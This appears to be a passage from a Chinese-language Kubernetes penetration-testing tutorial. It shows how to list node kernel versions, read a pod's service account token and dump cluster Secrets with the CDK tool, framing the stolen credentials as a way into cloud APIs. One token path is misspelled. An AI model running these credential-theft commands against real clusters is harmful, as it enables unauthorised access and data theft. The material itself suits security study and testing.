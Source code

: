 
### 内核版本

需要下载kubectl到pod中，之后通过执行以下命令来获取node节点的内核版本信息

```plain
kubectl get nodes -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.status.nodeInfo.kernelVersion}{"\n"}{end}'
```

[![](assets/1698893355-980ff08271d4ffa730f0759956b6d3a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164332-94087140-7312-1.png)

### Token类

K8s集群创建的Pod中容器内部默认携带K8s Service Account认证凭据(/run/secrets/kubernetes.io/serviceaccount/token)，利用该凭据可以认证K8s API-Server服务器并访问高权限接口，如果执行成功意味着该账号拥有高权限，可以直接利用Service Account管理K8s集群

```plain
cat /var/run/secrets/kuberenetes.io/serviceaccount/token
```

[![](assets/1698893355-8903adb02acbd34f6f619fe264c1f7b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164358-a3c744da-7312-1.png)

### Secret类

K8s Secrets用于存储敏感数据，从Secrets中获取的AK及通信凭证可用户后续渗透中从外部或云产品API窃取信息：

```plain
#命令格式
./cdk run k8s-secret-dump (auto|<service-account-token-path>)

#使用实例
./cdk run k8s-secret-dump auto
```

[![](assets/1698893355-1799cda5d905935dd35dd84708c81f00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164428-b51a18e8-7312-1.png)

